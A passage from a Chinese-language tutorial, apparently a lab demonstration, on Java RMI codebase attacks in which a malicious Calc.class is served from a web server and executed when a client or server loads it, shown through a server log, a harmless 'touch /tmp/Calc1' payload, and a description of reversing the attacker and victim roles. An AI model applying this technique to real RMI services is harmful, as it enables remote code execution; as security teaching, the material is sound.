 在 RMI 服务器端，记录了 Calc.class 是由 IP 地址为 192.168.0.96 的 RMI 客户端从 web 服务器下载的:

```
[root@demo ~]# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.0.96 - - [25/Dec/2022 21:35:55] "GET /rmi/remoteclass/Calc.class HTTP/1.1" 200 -
```

检查 RMI 客户端服务器上的/tmp/ folder，你会发现 Calc1 文件，这意味着 Calc 类的静态块内的`String[] commands = {"touch", "/tmp/Calc1"};`得到执行。

```
[root@demo ~]# ls /tmp/
Calc1
```

# 演示 2 攻击 RMI 服务器

仍然使用两个与上一个演示相同的服务器(一个是具有 IP 192.168.0.96 的 RMI 客户端，另一个是具有 IP 192.168.0.95 的 RMI 服务器)，但是本演示在这两个服务器之间切换了攻击者和受害者角色。

这一次，一个服务于恶意 Calc.class 的 web 服务器在 RMI 客户机服务器上运行。为了攻击 RMI 服务器，RMI 客户端将 web 服务器配置为代码库，并使用 Calc 对象作为远程调用方法的参数。由于 Calc 对象只存在于 RMI 客户机指定的代码库中，所以 RMI 服务器在获得 Calc 对象作为被调用方法的输入参数后，将下载 Calc.class 来解析 Calc 类的定义。嵌入在 Calc 类中的恶意命令一旦被 RMI 服务器 JVM 解释就会被执行。
